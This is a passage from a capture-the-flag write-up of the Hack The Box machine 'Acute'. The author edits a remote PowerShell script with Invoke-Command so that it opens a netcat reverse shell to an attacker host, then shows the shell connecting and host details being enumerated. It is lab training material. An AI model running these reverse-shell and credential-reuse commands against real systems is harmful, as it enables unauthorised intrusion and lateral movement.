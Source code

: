 It's working.

- Exit the testing reverse shell session and setup a new netcat listener:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:07:23(HKT)]
└> rlwrap -cAr nc -lvnp 4443
listening on [any] 4443 ...
```

- Modify the `wm.ps1` script to the netcat reverse shell payload:

```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { (Get-Content -Path C:\Users\imonks\Desktop\wm.ps1) -replace "whoami /all", "C:\Utils\nc.exe -nv 10.10.14.19 4443 -e powershell.exe" | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1 }
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { cat C:\Users\imonks\Desktop\wm.ps1 }
$securepasswd = '01000000d08[...]c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {C:\Utils\nc.exe -nv 10.10.14.19 4443 -e powershell.exe} -ComputerName Acute-PC01 -Credential $creds
```

- Run the modified `wm.ps1` script:

```shell
Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { C:\Users\imonks\Desktop\wm.ps1 }
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:07:23(HKT)]
└> rlwrap -cAr nc -lvnp 4443
listening on [any] 4443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.145] 49841
[...]
PS C:\Users\jmorgan\Documents> whoami; ipconfig /all
acute\jmorgan

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Acute-PC01
   Primary Dns Suffix  . . . . . . . : acute.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : acute.local

Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft Hyper-V Network Adapter #2
   Physical Address. . . . . . . . . : 00-15-5D-E8-0A-01
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::9513:4361:23ec:64fd%14(Preferred) 
   IPv4 Address. . . . . . . . . . . : 172.16.22.2(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.22.1
   DHCPv6 IAID . . . . . . . . . . . : 251663709
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-29-29-1F-44-00-15-5D-E8-02-00
   DNS Servers . . . . . . . . . . . : 172.16.22.1
[...]
```
